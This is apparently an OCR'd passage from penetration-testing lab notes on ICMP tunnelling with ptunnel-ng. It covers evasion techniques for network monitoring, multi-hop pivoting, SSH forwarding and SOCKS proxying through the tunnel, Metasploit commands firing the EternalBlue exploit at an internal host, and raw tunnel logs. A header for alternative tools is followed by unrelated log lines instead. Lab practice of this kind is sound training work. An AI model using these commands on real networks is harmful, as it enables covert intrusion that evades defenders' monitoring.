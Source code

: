 ### **Network Monitoring Evasion**
```bash
# Techniques to avoid detection:
1. Rate limiting - space out ICMP packets
2. Size variation - vary payload sizes
3. Jitter - add random delays
4. Multiple paths - use different routes
5. Traffic mixing - blend with legitimate pings
```

---

## **11. Integration with Other Techniques**

### **Multi-hop ICMP Tunneling**
```bash
# Chain multiple ICMP tunnels
[Attack] → ICMP → [Pivot1] → ICMP → [Pivot2] → [Target]

# Setup cascaded tunnels
# Pivot1: ptunnel-ng server + client
# Each hop forwards to next
```

### **ICMP + SSH Port Forwarding**
```bash
# Combine ICMP tunnel with SSH forwarding
ssh -L 8080:172.16.5.19:80 -p2222 -lubuntu 127.0.0.1

# Now port 8080 tunnels through ICMP to internal web server
curl http://127.0.0.1:8080
```

### **ICMP + Metasploit**
```bash
# Use ICMP tunnel for Metasploit payloads
# Setup SOCKS proxy through ICMP
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

# Configure Metasploit to use proxy
setg Proxies socks4:127.0.0.1:9050

# Launch exploits through ICMP tunnel
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 172.16.5.19
exploit
```

---

## **12. Alternative ICMP Tunneling Tools**


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[err]: Could not create ICMP socket: Operation not permitted
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: Starting ptunnel-ng 1.42.
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: Relaying packets from incoming TCP streams.
[err]: Could not create ICMP socket: Operation not permitted
[err]: Could not drop privileges
[inf]: No response from target